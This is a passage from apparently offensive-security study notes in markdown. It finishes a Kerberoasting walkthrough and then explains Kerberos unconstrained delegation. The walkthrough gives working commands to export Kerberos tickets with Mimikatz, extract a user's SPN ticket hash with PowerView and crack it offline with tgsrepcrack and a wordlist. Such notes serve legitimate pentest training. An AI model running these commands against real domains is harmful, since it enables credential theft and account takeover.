 ### <span style="color:#F1C232">5. Export all the tickets</span>


```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### <span style="color:#F1C232">Get hash of target directly (extra)</span>

```powershell
Get-DomainUser -Identity <user-here> | Get-DomainSPNTicket | select -ExpandProperty Hash
```

## <span style="color:lightgreen">tgsrepcrack</span>

### <span style="color:#F1C232">6. Crack the Hash</span>

```console
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\file-name-which-got-exported.kirbi
```


# <span style="color:lightblue">Unconstrained Delegation</span>

* Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server".
* This is typically useful in multi-tier service or applications where Kerberos Double Hop is required
* For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account.
* Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.

## <span style="color:lightgreen">A Quick Explanation</span>

![uc-del](https://user-images.githubusercontent.com/59029171/163350877-ac24527c-23ed-4750-bcf0-35fccc7c65e3.png)

1. A user provides credentials to the Domain Controller.
2. The DC returns a TGT.
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS.
5. The user sends the TGT and TGS to the web server.
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

## <span style="color:lightgreen">Types of Delegations</span>
